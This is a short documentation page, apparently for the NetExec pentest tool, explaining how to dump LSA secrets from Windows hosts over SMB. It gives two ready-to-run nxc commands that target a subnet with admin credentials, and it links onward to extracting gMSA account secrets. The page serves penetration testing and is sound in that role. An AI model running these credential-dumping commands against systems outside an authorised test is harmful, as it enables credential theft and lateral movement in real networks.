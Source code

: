 # Dump LSA

### Dump LSA secrets using methods from secretsdump.py

{% hint style="danger" %}
Requires Domain Admin or Local Admin Priviledges on target Domain Controller
{% endhint %}

```bash
nxc smb 192.168.1.0/24 -u UserName -p 'PASSWORDHERE' --lsa
```

If this command fail you can also try the old method (similar to secretdump)

```bash
nxc smb 192.168.1.0/24 -u UserName -p 'PASSWORDHERE' --lsa secdump
```

If you found an account starting with _SC\_GMSA_{84A78B8C-56EE-465b-8496-FFB35A1B52A7} you can get the account behind:

{% content-ref url="../../ldap-protocol/extract-gmsa-secrets.md" %}
[extract-gmsa-secrets.md](../../ldap-protocol/extract-gmsa-secrets.md)
{% endcontent-ref %}
